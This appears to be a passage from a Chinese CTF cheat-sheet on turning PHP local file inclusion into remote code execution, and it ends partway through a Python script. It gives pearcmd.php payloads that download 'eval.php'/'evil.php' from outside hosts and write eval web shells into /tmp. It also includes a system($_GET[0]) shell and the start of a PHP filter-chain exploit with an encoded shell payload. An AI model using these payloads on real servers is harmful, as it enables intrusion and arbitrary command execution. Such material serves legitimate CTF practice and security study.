 - 利用**PEAR** （开启register_argc_argv）

  可能路径：

  复制

  ```
  /usr/local/lib/php/pearcmd.php
  /usr/share/pear/pearcmd.php
  ```

  PEAR是可重用的PHP组件框架和系统分发，会随PHP安装时自动安装。

  `?file=/usr/local/lib/php/pearcmd.php&+download+http://vps/eval.php`

  `?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/eval.php+-d+man_dir=<?eval($_POST[0]);?>+-s+ HTTP/1.1`（Burpsuite防浏览器转码）

  `?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://ip/evil.php` （路径：`/tmp/pear/download/evil.php`）

  `?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?eval($_POST[0]);?>+/tmp/hello.php`（路径：`/tmp/hello.php`）

  复制

  ```
   <?php
  header('Content-Disposition: attachment; filename="shell.php"');
   echo <<<EOF
  <?php
  system(\$_GET[0]);
  ?>
  EOF;
  ```

  `?file=/tmp/pear/download/shell.php&0=/readflag`

- **PHPFilterChain RCE**

  参考：

  [LFI 新姿势学习](https://k1te.cn/2022/01/10/LFI学习/)

  [hxp CTF 2021 - The End Of LFI?](https://tttang.com/archive/1395/)

  复制

  ```
  import requests
  
  url = ""
  file_to_use = "/var/hint"
  command = "id"
  
  #<?=`$_GET[0]`;;?>
  base64_payload = "PD89YCRfR0VUWzBdYDs7Pz4"
  
  conversions = {
      'R': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2',
      'B': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
      'C': 'convert.iconv.UTF8.CSISO2022KR',
      '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
      '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
      'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
      's': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61',
      'z': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS',
  ```